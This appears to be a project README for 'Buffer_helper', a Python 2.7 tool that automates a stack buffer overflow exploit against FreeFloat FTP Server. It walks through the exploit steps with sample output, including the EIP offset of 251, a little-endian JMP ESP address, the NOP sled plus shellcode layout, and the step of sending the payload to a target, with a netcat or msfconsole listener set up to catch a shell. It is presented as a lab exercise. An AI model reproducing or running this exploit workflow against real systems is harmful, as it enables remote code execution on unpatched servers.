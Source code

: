 # Buffer_helper

* Buffer_Helper.py Help To Test Buffer overflow FTP Server Exploit .

* write by python 2.7

## Required
* generate your own shell code and replace it in the buffer_helper.py

* create your listner use msfconsloe or netcat


### steps 

1- add the string as input you can use any character input .

 * make sure your string input above "300" character.

 * the buffer_helper  will give output the random sting automatically have same length of the input string .

 * input can be  "aaaaaaaaaaaaa or AAAAAAAA or 11111111/22222222"
```
Examples 

[+]Enter your reguset:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa 

[+]character length is : 38 

[+]Generated String is: taoeboshifrhuyloeggipydyizkdrqnmtjzxdx

[+]The New character length is: 38


```

2- input the ip address of FTP server and the port .

* buffer_helper will send the data to server .
```
Examples 

[+]server ip : 10.195.100.230

[+]server port :21

[+]data send successful...!!!

```

### over write

3- after the EIP addrres get over write  .


* input the  EIP address as hexadecimal . 7755BBFF or 7755bbff .

* buffer_helper will compile  hexadecimal unmber to ASCII and prnit out.

* will print out Exact satch at offset .

```
Examples 

[+]Enter hexadecimal Crach address: 79726d74

[+]The ASCII Value  is :  tmry

[+]Exact satch at offset :  251

```
### little endian network style  . 

* buffer_helper will ask for JMP ESP address.

* input it as hexadecimal 7755BBFF or 7755bbff 

* the buffer_helper will reversed automatically and  print  it as "\xFF\x\bbx\x55\x77"

```
Example:


[+] Enter JMP ESP addrsss HEX  : 75c24e5b

[+]little endian JMP ESP  is :  \x5B\x4E\xC2\x75


```


### attack
* buffer_helper will  management and handling the attack

* calculates automatically and send all payload to server and print out the result.

```
 Example

[+] attack = 251 of "A" + JMP ESP = \x5B\x4E\xC2\x75 + 144 of("\x90")  + shell code

[+]conncet server ip is  :  10.195.100.230

[+]conncet server port is  :  21

[+]WE READY TO ATTACK !![+]

[+]data send successful...!!!

[+]-------------------------{THANK YOU}--------------------------[+]

 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        

```

# All Steps



```
 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        


[+]Enter your reguset:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

[+]character length is : 399

[+]Generated String is: rxgixmqoraszkfokqpbyexikbraqjossknbkjtlhbzatqmkxggqibjqfqcccvcgazfaxwtqreqzliyhglwnhfiiexhvrpcgiefqwaraqchhjywhxwfvmurdwelikuywgbvelqsxoaivhhykqaajizxwyobfcpfatnhzbwplteeanhbxcvnsnilnfpctlhlopvocmuciezjbyrgdfcspjahklvwrhfnafkammbucrzoljlobqzlsfmgrhikptmryomphwisryixvhrfmxsjcdjmnbagxhqlxpnzxptecckpvwmnscclkkiskhzmggdjkmalzmyjeyobgdscowqzunlgqshbaikplkekpqulpkmelilkqmataboikcgzzzznhurxcldwfnhefbyhy

[+]The New character length is: 399

[+]server ip : 10.195.100.230

[+]server port :21

[+]data send successful...!!!

[+]Enter hexadecimal Crach address: 79726d74

[+]The ASCII Value  is :  tmry

[+]Exact satch at offset :  251

[+] Enter JMP ESP addrsss HEX  : 75c24e5b

[+]little endian JMP ESP  is :  \x5B\x4E\xC2\x75

[+] attack = 251 of "A" + JMP ESP = \x5B\x4E\xC2\x75 + 144 of("\x90")  + shell code

[+]conncet server ip is  :  10.195.100.230

[+]conncet server port is  :  21

[+]WE READY TO ATTACK !![+]

[+]data send successful...!!!

[+]-------------------------{THANK YOU}--------------------------[+]

 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        

```
## Required Software / Setup

* attacker system: Kali Linux

* Victim system: Windows 

* Immunity debugger  https://www.immunityinc.com/products/debugger/

* FloatFTP - The application we are going to exploit  https://archive.org/details/tucows_367516_Freefloat_FTP_Server


##  for Contact  

* administrator@jacstory.tech 

* thank you for reading it 

